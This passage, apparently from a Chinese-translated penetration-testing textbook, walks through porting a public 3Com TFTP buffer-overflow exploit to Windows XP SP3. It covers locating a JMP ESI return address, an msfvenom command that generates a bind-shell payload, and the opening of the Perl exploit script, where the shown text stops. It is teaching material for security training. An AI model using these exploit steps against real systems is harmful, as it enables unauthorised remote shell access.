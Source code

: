 ![查找 USER32.dll 中的 JMP ESI 指令](img/httpatomoreillycomsourcenostarchimages2030586.png.jpg)图 19-4. 查找 *USER32.dll* 中的 `JMP ESI` 指令

我们在 Windows XP SP3 的 *USER32.dll* 中的内存地址 `7E45AE4E` 找到了 `JMP ESI` 指令。如果我们将 `jmp_2000` 变量更改为这个小端格式的值，这个 exploit 应该适用于我们的平台。

```
$**jmp_2000 = "\x4E\xAE\x45\x7E";**
```

### 替换 Shellcode

如前所述，我们还需要用 Msfvenom 生成的代码替换 shellcode。我们可以使用 bind shell 或任何适合 344 + 129 字节（包括 shellcode 和 NOP sled）的 Windows payload。我们需要避免的唯一坏字符是空字节。告诉 Msfvenom 以 Perl 格式输出 payload，以便我们可以轻松将其添加到我们的 exploit 中。

```
root@kali:~# **msfvenom -p windows/shell_bind_tcp -b '\x00' -s 473 -f perl**
```

### 编辑 Exploit

我们通过 Msfvenom 生成的 shellcode 为 368 字节，而公开漏洞中的原始 shellcode 为 344 字节。现在，根据示例 19-6 中的原始漏洞代码进行修改。我们删除了 NOP sled，并在 shellcode 后面填充了 105 字节的漏洞字符串，以确保我们的返回地址仍然能够劫持 EIP。

示例 19-6. 移植的漏洞

```
#!/usr/bin/perl -w
#===============================================================
#                3Com TFTP Service <= 2.0.1 (Long Transporting Mode) Overflow Perl Exploit
#                               By Umesh Wanve (umesh_345@yahoo.com)
#===============================================================
# Credits : Liu Qixu is credited with the discovery of this vulnerability.
# Reference : http://www.securityfocus.com/bid/21301
# Date : 27-02-2007
# Tested on Windows XP SP3
# You can replace shellcode with your favourite one :
# Buffer overflow exists in transporting mode name of TFTP server.
# So here you go.
# Buffer = "\x00\x02"      +  "filename"    +  "\x00" +  nop sled +  Shellcode + JUMP  + "\x00";
# This was written for educational purpose. Use it at your own risk. Author will not be responsible for any damage.
#===============================================================
use IO::Socket;
```